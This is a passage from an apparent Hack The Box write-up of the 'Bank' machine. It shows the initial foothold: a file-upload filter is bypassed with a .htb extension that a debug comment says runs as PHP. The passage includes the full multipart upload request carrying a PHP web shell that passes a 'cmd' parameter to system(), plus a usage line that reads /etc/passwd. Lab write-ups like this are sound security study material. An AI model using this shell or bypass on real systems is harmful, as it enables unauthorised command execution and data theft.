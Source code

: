 
## Initial Compromise

Using the found credentials, I was able to log in to the bank application.

Inside there is a function to upload files.

If I try to uploada shell I get the followin message: "You cant upload this this file. You can upload only images.". However in the source of the page we see the following comments:

`<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->`

So all we have to do is to us the .htb extension on our shell:

Upload POST-request:

```
POST /support.php HTTP/1.1
Host: bank.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://bank.htb/support.php
Content-Type: multipart/form-data; boundary=---------------------------10614131861911989917853390849
Content-Length: 2373
Cookie: HTBBankAuth=de629vvhlpbl3ngphujdaj5tr0
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------10614131861911989917853390849
Content-Disposition: form-data; name="title"

asdasd
-----------------------------10614131861911989917853390849
Content-Disposition: form-data; name="message"

heheheheh
-----------------------------10614131861911989917853390849
Content-Disposition: form-data; name="fileToUpload"; filename="test.htb"
Content-Type: image/png

�PNG
IHDR,ns.adobe.com/xap/1.0/mm/" xmlns:stRef="http://ns.adobe.com/xap/1.0/sType/ResourceRef#" xmlns:xmp="http://ns.adobe.com/xap/1.0/" xmpMM:OriginalDocumentID="xmp.did:614A3E598E8EE811B93896E73AABE993" xmpMM:DocumentID="xmp.did:326653EE8E9111E8B5E9D137C25DF9B9" xmpMM:InstanceID="xmp.iid:326653ED8E9111E8B5E9D137C25DF9B9" xmp:CreatorTool="Adobe Photoshop CS6 (Windows)"> <xmpMM:DerivedFrom stRef:instanceID="xmp.iid:674A3E598E8EE811B93896E73AABE993" stRef:documentID="xmp.did:614A3E598E8EE811B93896E73AABE993"/> </rdf:Description> </rdf:RDF> </x:xmpmeta> <?xpacket end="r"?>�Z

<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
-----------------------------10614131861911989917853390849
Content-Disposition: form-data; name="submitadd"


```